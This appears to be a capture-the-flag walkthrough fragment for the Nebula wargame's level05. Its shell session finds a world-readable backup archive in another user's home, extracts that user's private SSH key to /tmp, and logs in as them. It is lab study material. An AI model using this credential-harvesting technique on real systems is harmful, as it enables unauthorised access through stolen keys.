

```bash
ssh level05@192.168.154.137 # [nebulaIP]
```
```
level05@nebula:/home/flag05$ ls -la
drwxr-xr-x 2 flag05 flag05    42 2011-11-20 20:13 .backup
level05@nebula:/home/flag05$ cd .backup/
level05@nebula:/home/flag05/.backup$ ls -la
-rw-rw-r-- 1 flag05 flag05  1826 2011-11-20 20:13 backup-19072011.tgz
level05@nebula:/home/flag05/.backup$ tar xvzf backup-19072011.tgz -C /tmp/
.ssh/
.ssh/id_rsa.pub
.ssh/id_rsa
.ssh/authorized_keys
level05@nebula:/tmp/.ssh$ ssh -i id_rsa flag05@192.168.154.137
```

